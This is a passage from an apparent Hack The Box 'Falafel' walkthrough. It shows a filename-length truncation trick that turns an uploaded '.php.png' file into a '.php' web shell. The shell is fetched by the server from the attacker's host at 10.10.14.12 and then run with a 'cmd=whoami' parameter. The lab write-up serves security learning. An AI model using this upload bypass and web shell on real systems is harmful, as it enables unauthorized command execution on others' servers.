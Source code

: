 ```text
root@kali:~/Desktop/htb/falafel# mv test.php aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php.png
```

Upload the file and view the output message.

```text
<h1>Upload via url:</h1>  
<div>  
<h3>Upload Succsesful!</h3> 
<div>  
<h4>Output:</h4>  
<pre>CMD: cd /var/www/html/uploads/0202-1852_127546ec6e8c49a3; wget 'http://10.10.14.12:5555/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php.png'</pre>  
        
<pre>The name is too long, 240 chars total.
Trying to shorten...
New name is aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php.
--2020-02-02 18:52:45--  http://10.10.14.12:5555/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php.png
Connecting to 10.10.14.12:5555... connected.
HTTP request sent, awaiting response... 200 OK
Length: 208 [image/png]
Saving to: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php'
0K                                                       100% 29.9M=0s2020-02-02 18:52:45 (29.9 MB/s) - 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php' saved [208/208]
</pre>
</div>
```

This looks good, let’s call our saved php script with the “cmd” parameter.

```text
http://10.10.10.73/uploads/0202-1852_127546ec6e8c49a3/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php?cmd=whoami
```

We get the following result.

![](../images/max/1125/1*ErlGcMN0FHjZ3Ec1Uj6mwg.png)
